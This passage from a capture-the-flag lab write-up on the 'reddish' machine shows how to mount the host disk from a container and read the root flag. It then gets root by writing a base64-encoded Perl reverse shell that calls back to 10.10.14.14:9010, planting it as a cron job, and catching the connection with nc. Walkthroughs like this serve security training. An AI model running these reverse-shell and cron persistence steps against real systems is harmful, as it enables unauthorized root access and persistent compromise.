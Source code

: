 This raw device access is enough to provide file system access:

```

# mount /dev/sda1 /mnt
# ls /mnt/root/
root.txt

```
*July 2023 update: It seems the machine got updated at some point, and the partition with the host file system is now `/dev/sda2`.*

Now I can grab the flag:

```

# cat /mnt/root/root.txt
50d0db64...

```

### root Shell

With write access to `/etc/cron.d`, I can get a root shell easily. And, reddish can talk directly home, so I don’t have to make tunnels, which is nice. Write a shell script:

```

# echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTAuMTAuMTQuMTQiOyRwPTkwMTA7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307Jwo= | base64 -d > shell.sh
# cat /mnt/opt/shell.sh
perl -e 'use Socket;$i="10.10.14.14";$p=9010;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

Now write the cron:

```

# cd /mnt/etc/cron.d/
# ls
mdadm
popularity-contest
# echo '* * * * * root sh /opt/shell.sh' > shell 

```

Catch the callback:

```

root@kali# nc -lnvp 9010
listening on [any] 9010 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 53548
/bin/sh: 0: can't access tty; job control turned off
# hostname
reddish
# whoami
root

```
